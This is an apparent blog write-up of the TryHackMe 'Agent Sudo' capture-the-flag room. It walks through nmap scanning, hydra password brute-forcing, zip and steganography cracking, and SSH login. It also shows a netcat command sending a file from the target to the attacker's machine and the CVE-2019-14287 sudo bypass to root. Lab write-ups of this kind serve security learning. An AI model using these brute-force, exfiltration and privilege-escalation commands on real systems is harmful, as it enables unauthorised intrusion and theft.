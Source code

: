 ```yaml
---
tagline: agentsudo
title: Agent Sudo | Concise Writeup
description: Mom, I think there are aliens outside...
banner: /blog/agentsudobanner.jpeg/
banner_alt: better late than never, better late than never
date: '2024-03-4'
---
```


## Nmap

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.137.85
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 22:53 EST
Nmap scan report for 10.10.137.85
Host is up (0.094s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.10 seconds
```

- 3 open ports

## Enumerate cont'd

- To redirect to the secret page, we need to modify the **user-agent** using cURL. I used the command ```curl -A <useragent> 10.10.137.85 -L``` and trying *R* as a user agent shows this.

![Image showing result of R](/blog/agentsudopics/useragentcurl.png 'Fig.1')

- When we try C we get this

![Image showing result of C](/blog/agentsudopics/chris.png 'Fig.2')

- Now we know his name is chris and that his password is weak (not actually weak)

## Hash cracking and brute-force

- I cracked the FTP Password using this command ```hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.194.92 -V```

![Image showing ftp cracked](/blog/agentsudopics/ftpcracked.png 'Fig.3')

- Next is logging into the ftp server with ```ftp user@ip```. Inside we find a txt file that reads

```txt:Text Editor
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- Lets also ```get``` the other images. Inside *cutie.png*, we find a zip file (binwalk'ed) that is password protected.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Downloads]
└─$ zip2john 8702.zip > 8702.hash
                                                                                                      
┌──(vipin㉿vipin)-[~/Downloads]
└─$ john 8702.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 ASIMD 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:02 DONE 2/3 (2024-03-04 21:35) 0.4975g/s 22230p/s 22230c/s 22230C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- Inside the zip file was a txt file named *To_agentR.txt* which says this

```txt:Text Editor
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- It seem like the text is in base64

```bash:Terminal
┌──(vipin㉿vipin)-[~/Downloads]
└─$ echo 'QXJlYTUx' | base64 -d
Area51           
```

- Now that we have the steg password lets extract text the other image

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ steghide --extract -p Area51 -sf cute-alien.jpg
wrote extracted data to "message.txt".

┌──(vipin㉿vipin)-[~]
└─$ cat message.txt                                                                   
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- Thats a LOT of information, enough to get us to the next section.

## Capture the user flag

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ ssh james@10.10.194.92                         
The authenticity of host '10.10.194.92 (10.10.194.92)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.194.92' (ED25519) to the list of known hosts.
james@10.10.194.92's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar  5 02:49:58 UTC 2024

  System load:  0.0               Processes:           92
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 31%               IP address for eth0: 10.10.194.92
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

- Now for the next question, utilizing netcat I transfered the file to my vm

```bash:Terminal
james@agent-sudo:~$ nc -w 5 10.6.22.229 6969 < /home/james/Alien_autospy.jpg

# on another window

┌──(vipin㉿vipin)-[~/Desktop]
└─$ nc -lvnp 6969 > Alien_autopsy.jpg
```

- Now using google search, we find this various results but no fox news, but using the other articles I learned that some guy named Roswell faked an alien autopsy which gives us the answer *roswell alien autopsy*.

## Privilege escalation

> "ITS TIMEEEE, THE BEST TIMEEEE!!!!!"

- We start by running ```find / -uid 0 -perm -4000 -type f 2>/dev/null``` to find exploitable SUID Binaries and sudo seems to be one.

```bash:Terminal
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- A little searching find us [this](https://www.exploit-db.com/exploits/47502) exploit which tells us the CVE(CVE-2019-14287) & how to privilege escalate!

```bash:Terminal
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

### MACHINE PWN'ED 😎

![My Tryhackme badge yuh](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)